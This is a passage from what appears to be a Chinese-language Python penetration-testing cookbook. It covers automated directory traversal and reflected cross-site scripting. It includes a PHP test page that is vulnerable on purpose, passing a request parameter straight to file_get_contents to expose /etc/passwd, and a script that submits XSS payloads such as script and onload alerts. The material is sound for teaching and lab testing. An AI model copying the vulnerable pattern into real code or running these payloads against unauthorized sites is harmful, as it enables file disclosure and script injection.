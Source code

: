 我们通过在响应中查找预期字符串来检查是否达到了目标。如果字符串存在，我们停止循环并打印出攻击字符串以及对成功攻击的响应。这允许我们手动验证攻击是否成功，代码是否需要重构，或者 web 应用程序是否不易受攻击：

```py
    i = i+1
  i = 0
```

最后，计数器被添加到每个循环中，直到达到预设的最大值。一旦达到最大值，下一个攻击字符串将设置为零。

## 还有更多

通过应用本书其他地方所示的原理，可以调整此配方，以使用参数。但是，由于通过参数调用的页面很少，而且有意简洁，因此未提供此功能。

如前所述，可以通过添加其他文件及其常见字符串来扩展此功能。一旦建立了遍历目录的能力和到达根目录所需的深度，它还可以扩展到抓取所有感兴趣的文件。

下面是一个 PHP 网页，允许您在自己的构建中测试此脚本。只要把它放在你的`var/www`目录或任何你使用的解决方案中。请勿在未知网络上保持此活动状态：

```py
<?php
echo "Get me /etc/passwd! File Contents";
if (!isset($_REQUEST['id'])){
header( 'Location: /traversal/first.php?id=1' ) ;
}
if (isset($_REQUEST['id'])){
  if ($_REQUEST['id'] == "1"){
    $file = file_get_contents("data.html", true);
    echo $file;}

else{
  $file = file_get_contents($_REQUEST['id']);
  echo $file;
}
}?>
```

# 基于 URL 的自动跨站点脚本

反映跨站点脚本通常通过基于 URL 的参数进行。你应该知道什么是跨站点脚本，如果你不知道，我为你感到尴尬。来真的我必须解释一下吗？可以跨站点脚本是将 JavaScript 注入页面。这是黑客 101，也是大多数人遇到或听到的第一次攻击。阻止跨站点脚本的低效方法主要集中在目标脚本标记上，由于脚本标记不是在页面中使用 JavaScript 所必需的，因此有很多方法可以解决这一问题。

我们将创建一个脚本，该脚本采用各种标准规避技术，并使用`Requests`库将其应用于自动提交。我们将知道脚本是否成功，因为脚本或其早期版本将出现在提交后的页面上。

## 怎么做…

我们将使用的脚本如下所示：

```py
import requests
import sys
url = sys.argv[1]
payloads = ['<script>alert(1);</script>', '<BODY ONLOAD=alert(1)>']
for payload in payloads:
  req = requests.post(url+payload)
  if payload in req.text:
    print "Parameter vulnerable\r\n"
    print "Attack string: "+payload
    print req.text
    break
```
